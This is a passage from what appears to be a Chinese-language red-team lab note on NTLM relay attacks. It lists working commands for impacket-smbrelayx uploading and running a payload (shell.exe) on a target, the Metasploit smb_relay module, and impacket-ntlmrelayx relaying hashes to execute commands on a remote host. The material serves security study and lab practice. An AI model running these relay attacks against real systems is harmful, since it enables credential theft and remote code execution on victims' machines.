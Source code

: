 ![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/7.png)

此时，攻击者的 smbrelayx 脚本上就会发现命令成功执行了

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/9.png)

```
impacket-smbrelayx -h <被攻击ip> -e shell.exe
```
用 -e 选项会在目标主机上传并运行我们的 payload

---

#### Metasploit smb_relay(08-068)

```
use exploit/windows/smb/smb_relay
run
```

在目标的 cmd 中执行 `net use \\<kali ip>\c$` 来访问攻击者搭建的恶意 smb 服务

---

#### Impcaket ntlmrelayx

ntlmrelayx 脚本可以直接用现有的 hash 去尝试重放指定的机器
```
impacket-ntlmrelayx -t smb://<被攻击ip> -c whoami -smb2support
```

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/10.png)
